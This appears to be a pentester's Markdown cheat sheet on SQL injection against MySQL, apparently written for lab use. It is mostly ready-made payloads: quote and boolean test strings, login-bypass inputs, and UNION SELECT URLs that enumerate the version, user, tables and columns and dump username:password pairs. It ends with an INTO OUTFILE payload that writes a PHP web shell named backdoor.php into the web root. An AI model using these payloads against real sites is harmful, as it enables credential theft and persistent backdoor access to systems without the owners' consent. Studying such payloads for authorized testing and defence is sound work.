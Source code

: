 # SQL injection

## Basic techniques

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
username'-
```

## Database enumeration
The exact syntax for injection will vary by database type. In most lab scenarios, the database will be MySQL.

Get version:

```text
http://[host]/inj.php?id=1 union all select 1,2,3,@@version,5
```
You can get the number of columns through trial and error using `order by`. For each query, increase the column number until the database throws an unknown column error:
```
http://[host]/inject.php?id=54 order by 1
http://[host]/inject.php?id=54 order by 2
http://[host]/inject.php?id=54 order by 3
```
Get the current user:
```
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```
See all tables:
```
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```
Get column names for a specified table: 
```
http://ip/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```
Get usernames and passwords (0x3a means `:`):
```
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```
You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root: 
```
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
I suspect you could inject a full reverse shell in there too...

## SQLmap

To-do

## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Dumping a complete database using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
